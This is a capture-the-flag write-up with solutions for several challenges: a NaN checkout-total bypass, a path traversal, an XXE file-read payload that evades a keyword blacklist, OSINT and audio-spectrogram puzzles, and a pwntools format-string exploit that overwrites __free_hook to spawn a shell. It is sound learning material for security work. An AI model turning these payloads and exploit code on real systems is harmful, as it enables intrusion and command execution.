## Web Challenges
### JSHit

This was a straightforward challenge that included a JSFuck language. Just needed to decode the text.


Used [dcode.fr](https://www.dcode.fr/jsfuck-language) to decode the text and get the flag:



### ZazaStore


This was an online marketplace. An interesting thing was that there was a ```FakeZa``` product which gave a fake flag, it hinted me that the real flag was ```RealZa``` product.


**Code Analysis:**

```texttext
.
├── challenge.zip
└── src
    ├── app
    │   ├── package.json
    │   ├── package-lock.json
    │   ├── public
    │   │   ├── images
    │   │   │   ├── CartoonZa.png
    │   │   │   ├── ElectricZa.jpeg
    │   │   │   ├── FakeZa.jpeg
    │   │   │   ├── RealZa.jpeg
    │   │   │   └── ZazaIsBad.png
    │   │   └── style
    │   │       └── style.css
    │   ├── server.js
    │   └── views
    │       ├── cart.ejs
    │       ├── index.ejs
    │       ├── inventory.ejs
    │       └── login.ejs
    ├── docker-compose.yml
    └── Dockerfile
```
The ```/add-cart``` function didnot validate the product so i noticed the logic flaw.
Firstly i tried to exploit a logic flaw in how JavaScript handles ```NaN``` (Not-a-Number) during comparisons. 
The prices object only contains specific keys (FakeZa, ElectricZa, etc.). The ```/add-cart``` route does not check if the product we are adding is actually a valid item in the store.
- Add the flag to cart: ```{"product": "RealZa", "quantity": 1}```.
    
- Add a fake product that doesn't exist in the prices object: ```{"product": "Exploit", "quantity": 1}```.
    
- When we checkout, the code tries to calculate: ```prices["Exploit"] * 1```.
- Since ```prices["Exploit"]``` is undefined, the math becomes``` undefined * 1```, which results in ```NaN```.
    
- ```total``` becomes ```NaN```, the balance check is bypassed, and the items are added to the inventory.
    


### Travel Playlist


The site takes the number ```1 to 7``` and fetches the song or video from youtube based on that ```index``` via ```/api/get_json```

**Vulnerability:**\
This challenge is a classic Path Traversal (or Directory Traversal) vulnerability.
The description tells the flag is located at ```/app/flag.txt```. 


I simply changed the index value with ```../flag.txt``` which gave the flag.


### PDFile


This challenge has a upload portal to upload ```.pasx``` (XML file extension) and convert it to PDF.

**Code Analysis:**

```text
.
├── app.py
├── docker-compose.yml
├── Dockerfile
├── requirements.txt
└── templates
    └── index.html
```
The main logic and the major flaw is in this:


The ```sanitize``` function checks the ```.pasx``` file if there are blacklist words, but it first converts each word to lowercase. We can bypass it by URL Encoding ```flag``` which becomes ```%66%6c%61%67``` in the xml file.
- First we create a ```exploit.pasx``` file which includes
```html
<?xml version="1.0"?>
<!DOCTYPE book [
<!ENTITY xxe SYSTEM "/app/%66%6c%61%67.txt">
]>
<book>
    <title>&xxe;</title>
    <author>Test</author>
    <chapters></chapters>
</book>
```
- Upload it to the portal which will give flag in title


## Misc

### Geoguesser


It is an OSINT challenge where we have to find the geolocation where the image was taken.


Starting off with ```Google Images``` and ```Yandex```. Firstly i tried to find the countries where the traffic delineator post like in the image (trying to pull off like ``Ranibolt``) but it was too generic.



Then I tried the buildings in the scene. 


It straight away gave away the location.

Using google map to pinpoint location we found the exact place where image was taken:


### Stinky Slim

This challenge gave us the audio of ```Brr Brr Patapim``` song from Italian brainrot meme. Analysing the audio using ```Sonic Analyser Spectrogram``` gave away the instruction to get the flag.
```OPEN A TICKET SAYING YOU LOVE BLAISE PASCAL TO GET THE FLAG```


## PWN

### YetAnotherNoteTaker


**Binary analysis:**


The binary has: 
- ```canary enabled``` meaning program crashes when it encounters stack overflows 
- ```PIE disabled``` meaning the binary address doesn't change 
- ```Full RELRO``` indicates ```GOT(Global Offset Table)``` is not writable  
- ```NX enabled``` indicates the binary is no execute enabled meaning we cannot inject shellcodes 

We are given these libc files:


The binary has format string vulnerability:


Because ```Full RELRO``` is enabled, we cannot overwrite the Global Offset Table (GOT). However, we can target Libc hooks (```__free_hook```), which are writable pointers within the libc library itself.


#### Workflow
- Leak Libc address
- find libc base
- calculate offset
- find ```_free_hook``` address
- calculate ```system``` address which is used to trigger shell by overwriting ```_free_hook``` 
- overwrite ```_free_hook``` with ```/bin/sh```
- Trigger shell

**Leak:**

```python
from pwn import *

context.binary = elf = ELF('./notetaker')
libc = ELF('./libs/libc.so.6')  


p=process('./notetaker')

def write_note(data):
    p.sendlineafter(b'> ', b'2')
    p.sendafter(b'note: ', data)

def read_note():
    p.sendlineafter(b'> ', b'1')
    return p.recvline()

write_note(b'AAAAAAAA'+b'%p.' * 50 + b'\n')
leaks = read_note().decode().split('.')
for i, leak in enumerate(leaks):
    print(f"Offset {i+1}: {leak}")
```


***Buffer Offset*** is at index 8. Lets check for the libc and stack in gdb:


Lets calculate offset:


#### Exploit

```python
from pwn import *

context.binary = elf = ELF('./notetaker')
libc = ELF('./libs/libc.so.6')

p = process('./notetaker')

def write_note(data):
    p.sendlineafter(b'> ', b'2')
    p.sendafter(b'note: ', data)

def read_note():
    p.sendlineafter(b'> ', b'1')
    return p.recvline()

def clear_note():
    p.sendlineafter(b'> ', b'3')


#STEP 1: Leak libc
write_note(b'%1$p\n')
leak = read_note().strip()
libc_leak = int(leak, 16)
log.info(f"Leaked: {hex(libc_leak)}")

LEAK_OFFSET = 0x3c4b28  
libc.address = libc_leak - LEAK_OFFSET
log.success(f"Libc base: {hex(libc.address)}")


# STEP 2: Calculate addresses
free_hook = libc.sym['__free_hook']
system = libc.sym['system']
log.info(f"__free_hook: {hex(free_hook)}")
log.info(f"system: {hex(system)}")


# STEP 3: Overwrite __free_hook with system
clear_note()
BUFFER_OFFSET = 8

payload = fmtstr_payload(BUFFER_OFFSET, {free_hook: system}, write_size='short')

write_note(payload + b'\n')
read_note() 


# STEP 4: Trigger free("/bin/sh") -> system("/bin/sh")

p.sendlineafter(b'> ', b'/bin/sh\x00') 
p.interactive()
```



